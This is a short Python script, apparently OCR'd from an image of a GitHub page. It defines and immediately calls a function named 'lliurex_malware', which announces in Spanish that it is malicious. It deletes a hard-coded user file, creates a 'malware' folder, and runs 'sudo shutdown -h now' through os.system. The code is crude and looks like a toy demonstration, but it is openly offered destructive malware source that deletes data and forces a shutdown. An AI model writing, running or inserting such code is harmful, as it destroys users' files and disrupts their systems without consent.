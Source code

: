 import os
import time

def lliurex_malware():
    print("Este programa es malicioso y va a causar daño en tu sistema.")

    # Borramos archivos importantes
    archivo_a_borrar = "/home/user/archivo_important.txt"
    if os.path.exists(archivo_a_borrar):
        os.remove(archivo_a_borrar)
        print("Archivo eliminado con éxito")

    # Crea una carpeta llamada "malware" en la carpeta de documentos
    carpeta_malware = "/home/user/Documents/malware"
    if not os.path.exists(carpeta_malware):
        os.mkdir(carpeta_malware)
        print("Carpeta creada con éxito")

    # Ejecuta un comando de sistema
    comando = "sudo shutdown -h now"
    os.system(comando)
    print("Sistema apagándose")

    # Esporádico: espera 5 segundos antes de continuar
    time.sleep(5)

    print("Fin del programa malicioso")

lliurex_malware()

